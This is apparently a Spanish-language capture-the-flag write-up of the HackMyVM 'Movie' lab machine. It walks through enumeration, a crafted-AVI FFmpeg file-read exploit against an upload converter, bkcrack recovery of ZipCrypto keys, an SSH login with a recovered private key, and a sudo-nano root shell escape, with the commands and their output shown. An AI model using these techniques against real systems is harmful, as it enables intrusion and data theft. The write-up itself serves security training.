




# Movie HackMyVM

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.27

## Scaneos

Realizamos un scaneo rapido con nmap

```bash
❯ sudo nmap -Pn -sS -n -p- 10.0.2.27 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-13 18:04 EDT
Nmap scan report for 10.0.2.27
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:99:42:A8 (Oracle VirtualBox virtual NIC)
```

A continuacion veremos la pagina la cual nos deja subir un archivo.



Comenzamos a buscar mas directorios con dirb

```bash
❯ dirb http://10.0.2.27 -X .php,.html,.txt,.xml

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Mar 13 18:09:01 2023
URL_BASE: http://10.0.2.27/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php,.html,.txt,.xml) | (.php)(.html)(.txt)(.xml) [NUM = 4]

---- Scanning URL: http://10.0.2.27/ ----
+ http://10.0.2.27/404.html (CODE:200|SIZE:920)                                                
+ http://10.0.2.27/home.html (CODE:200|SIZE:552)                                               
+ http://10.0.2.27/index.php (CODE:200|SIZE:552)                                               
+ http://10.0.2.27/sitemap.xml (CODE:200|SIZE:762)                                             
+ http://10.0.2.27/upload.php (CODE:200|SIZE:0)                                                
                                                                                      
-----------------
END_TIME: Mon Mar 13 18:09:08 2023
DOWNLOADED: 18448 - FOUND: 5
```

Dentro de sitemap encontramos una lista de directorios
```HTML
❯ curl http://10.0.2.27/sitemap.xml                
<?xml version="1.0" encoding="UTF-8"?>

<site>  
<url>
  <loc>http://movie.hmv/home.html</loc>
  <lastmod>2022-10-01T06:41:52+00:00</lastmod>
</url>

<url>
  <loc>http://movie.hmv/upload.php</loc>
  <lastmod>2022-10-01T06:41:52+00:00</lastmod>
</url>

<url>
  <loc>http://movie.hmv/404.html</loc>
  <lastmod>2022-10-01T06:41:52+00:00</lastmod>
</url>

<url>
  <loc>http://movie.hmv/converted_videos</loc>
  <lastmod>2022-10-01T06:41:52+00:00</lastmod>
</url>

<url>
  <loc>http://movie.hmv/dist</loc>
  <lastmod>2022-10-01T06:41:52+00:00</lastmod>
</url>

<url>
  <loc>http://movie.hmv/index.php</loc>
  <lastmod>2022-10-01T06:41:52+00:00</lastmod>
</url>

<url>
  <loc>http://movie.hmv/data</loc>
  <lastmod>2022-10-01T06:41:52+00:00</lastmod>
</url>
</site>
```
Agrego movie.hmv a /etc/hosts

```
❯ nano /etc/hosts 
❯ cat /etc/hosts                   
───────┬────────────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼────────────────────────────────────────────────────────────────────────────────
   1   │ 127.0.0.1   localhost
   2   │ 127.0.1.1   kali
   3   │ ::1     localhost ip6-localhost ip6-loopback
   4   │ ff02::1     ip6-allnodes
   5   │ ff02::2     ip6-allrouters
   6   │ 
   7   │ 10.0.2.27 movie.hmv
───────┴────────────────────────────────────────────────────────────────────────────────
```

Encontramos una pagina de login en /data/login.php sin embargo no tenemos credenciales para ingresar.

## Buscando vulnerabilidad FFMPEG

Buscando como funciona el cambio de avi a mp4 nos damos cuenta que usa una tecnologia llamada ``FFMPEG`` 
Ahora procedemos a buscar alguna vulnerabilidad y encontramos un github que nos permite leer archivos del sistema https://github.com/neex/ffmpeg-avi-m3u-xbin

En el codigo hay dos funciones principales: make_playlist_avi() y gen_xbin_packet_playlist(). La primera se encarga de crear la lista de reproducción para un archivo AVI. La función toma como entrada una cadena de bytes que representa el contenido del archivo de video, y dos argumentos opcionales: fake_packets y fake_packet_len. fake_packets especifica el número de paquetes falsos que se agregarán al archivo AVI, y fake_packet_len especifica la longitud de cada paquete falso. La función devuelve una cadena de bytes que representa el archivo AVI completo con la lista de reproducción incrustada.

Me copie el codigo a un archivo llamado gen.py y siguiendo el github creo mi archivo.avi

## Explotacion FFMPEG

```bash
❯ chmod +x gen.py
❯ ./gen.py file:///etc/passwd archivo.avi
❯ ls ar* 
archivo.avi
```

Subimos el archivo y ahora descargamos el link que nos proporciona
``http://movie.hmv/converted_videos/archivo.mp4``

```bash
❯ wget http://movie.hmv/converted_videos/archivo.mp4
--2023-03-13 20:41:32--  http://movie.hmv/converted_videos/archivo.mp4
Resolving movie.hmv (movie.hmv)... 10.0.2.27
Connecting to movie.hmv (movie.hmv)|10.0.2.27|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 737335 (720K) [video/mp4]
Saving to: ‘archivo.mp4’
archivo.mp4  100%[=========================================>] 720.05K  --.-KB/s    in 0.002s  
2023-03-13 20:41:32 (380 MB/s) - ‘archivo.mp4’ saved [737335/737335]
                            
❯ ls a*
archivo.mp4
```

Abriendo el archivo.mp4 esta el passwd como lo habiamos visto, ahora creo que tarantino puede ser un posible usuario 



Soltando un gobuster anterior me acuerdo que encontramos un config.php dentro de /data

```bash
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.27/data -x .php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.27/data
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/03/14 21:55:46 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 274]
/index.php            (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 449]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/dist                 (Status: 301) [Size: 310] [--> http://10.0.2.27/data/dist/]
```

Asi que haremos el mismo proceso para intentar leer que es lo que contiene.

```bash
❯ ./gen.py file:///var/www/html/data/config.php config.avi

❯ wget http://movie.hmv/converted_videos/config.mp4 
--2023-03-14 22:00:47--  http://movie.hmv/converted_videos/config.mp4
Resolving movie.hmv (movie.hmv)... 10.0.2.27
Connecting to movie.hmv (movie.hmv)|10.0.2.27|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 563221 (550K) [video/mp4]
Saving to: ‘config.mp4’

config.mp4 100%[================================================>] 550.02K  --.-KB/s    in 0.002s  

2023-03-14 22:00:47 (228 MB/s) - ‘config.mp4’ saved [563221/563221]
```


Entramos por el login con el usuario y contrasena y tenemos acceso.



## Explotacion ZipCrypto

Gracias a 7z podemos ver que tipo de encryptacion esta usando el zip

```bash
❯ 7z l -slt mydata_archive.zip | grep "Method"
Method = ZipCrypto Store
Method = ZipCrypto Store
Method = ZipCrypto Store
Method = ZipCrypto Store
Method = ZipCrypto Store
Method = ZipCrypto Store
```

Ahora buscando como explotar un ZipCrypto podemos ver que existe un ataque de plaintext o algo por el estilo. Aqui esta mas detallado https://medium.com/@whickey000/how-i-cracked-conti-ransomware-groups-leaked-source-code-zip-file-e15d54663a8


```bash
❯ wget https://github.com/kimci86/bkcrack/releases/download/v1.5.0/bkcrack-1.5.0-Linux.tar.gz

❯ tar -xsf bkcrack-1.5.0-Linux.tar.gz

❯ printf '<!DOCTYPE html>' > plain

❯ xxd plain 
00000000: 3c21 444f 4354 5950 4520 6874 6d6c 3e    <!DOCTYPE html>

❯ 7z a plain.zip plain

❯ ./bkcrack -C mydata_archive.zip -c 404.html -P plain.zip -p plain 
bkcrack 1.5.0 - 2022-07-07
[22:45:24] Z reduction using 8 bytes of known plaintext
100.0 % (8 / 8)
[22:45:24] Attack on 761980 Z values at index 6
Keys: d706e724 da372a68 a79864b0
0.8 % (6055 / 761980)
[22:45:33] Keys
d706e724 da372a68 a79864b0

❯ ./bkcrack -C mydata_archive.zip -k d706e724 da372a68 a79864b0 -U unlocked.zip password
bkcrack 1.5.0 - 2022-07-07
[22:47:40] Writing unlocked archive unlocked.zip with password "password"
100.0 % (6 / 6)
Wrote unlocked archive.

❯ 7z x unlocked.zip      

Scanning the drive for archives:
1 file, 7731 bytes (8 KiB)
Extracting archive: unlocked.zip
--
Path = unlocked.zip
Type = zip
Physical Size = 7731
 
Enter password (will not be echoed): password
Everything is Ok

Files: 6
Size:       6859
Compressed: 7731
```

## Entrar como usuario 

Bueno ahora si tenemos algo super interesante que es una private key. Asi que nos conectaremos mediante ssh y encontramos la flag de user

```bash
❯ ssh tarantino@10.0.2.27 -i id_rsa 
Last login: Wed Oct  5 08:17:15 2022 from 192.168.0.22

tarantino@movie:~$ ls
user.txt
tarantino@movie:~$ cat user.txt
********************545054d3e8db
```

## Escalacion de Privilegios

Una vez dentro procedemos a ver que podemos realizar para escalar privilegios.

```bash
tarantino@movie:~$ sudo -l
Matching Defaults entries for tarantino on movie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tarantino may run the following commands on movie:
    (root) NOPASSWD: /usr/bin/nano /etc/passwd
```

Viendo la pagina https://gtfobins.github.io/gtfobins/nano/
Asi que siguiendo los pasos me generare una shell como root 

```bash
tarantino@movie:~$ sudo /usr/bin/nano /etc/passwd
```

Una vez dentro de nano
``ctrl+R`` ``ctrl+X`` ``reset; /bin/bash 1>&0 2>&0``
De esta manera obtenemos una shell

```bash
sh-5.1# cd /root
sh-5.1# ls
root.txt
sh-5.1# cat root.txt
***********************3fd6e6f52
```